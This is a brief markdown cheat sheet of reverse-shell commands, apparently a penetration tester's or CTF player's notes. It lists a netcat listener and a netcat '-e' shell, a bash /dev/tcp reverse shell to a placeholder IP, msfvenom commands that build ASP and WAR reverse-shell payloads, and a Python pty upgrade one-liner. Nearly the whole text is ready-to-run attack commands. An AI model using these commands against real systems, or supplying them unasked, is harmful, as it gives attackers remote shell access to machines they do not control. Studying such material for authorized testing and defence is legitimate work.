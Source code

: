 # Reverse shells

Attacker runs:
```
nc -nvlp <port>
```

Target runs:
```
nc -nv <ip> <port> -e <cmd>
```
or:
```
bash -i >&/dev/tcp/x.x.x.x/443 0>&1
```

## Metasploit venom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshell.asp
```

## Pretty bash TTY

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## WAR

```
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=443 -f war > hacketyhack.war
```
